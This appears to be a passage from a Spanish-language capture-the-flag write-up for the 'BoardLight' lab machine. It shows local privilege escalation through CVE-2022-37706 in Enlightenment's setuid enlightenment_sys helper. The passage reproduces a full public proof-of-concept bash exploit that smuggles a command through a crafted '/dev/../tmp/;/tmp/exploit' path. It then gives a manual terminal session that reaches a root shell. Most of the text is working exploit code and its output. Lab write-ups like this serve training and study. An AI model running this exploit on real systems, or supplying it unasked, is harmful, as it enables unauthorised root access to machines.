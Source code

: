 `Enlightenment` es un gestor de ventanas que funciona ya sea en X11 o Wayland, y buscando por vulnerabilidades encontraremos el CVE-2022-37706:

> The Enlightenment Version: 0.25.3 is vulnerable to local privilege escalation.
> Enlightenment_sys in Enlightenment before 0.25.3 allows local users to
> gain privileges because it is setuid root,
> and the system library function mishandles pathnames that begin with a
> /dev/.. substring

Podemos encontrar un PoC público para abusar de la vulnerabilidad, y análizandolo podemos ver que es muy sencillo... ([tomado de acá](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit))

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

Por lo que podemos simplemente ejecutarlo o hacerlo manual:

```bash
larissa@boardlight:~/Downloads$ mkdir -p /tmp/net
larissa@boardlight:~/Downloads$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:~/Downloads$ echo "/bin/bash" > /tmp/exploit
larissa@boardlight:~/Downloads$ chmod +x /tmp/exploit
larissa@boardlight:~/Downloads$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
root@boardlight:/home/larissa/Downloads#
```

Con esto ya podremos tomar la última flag.
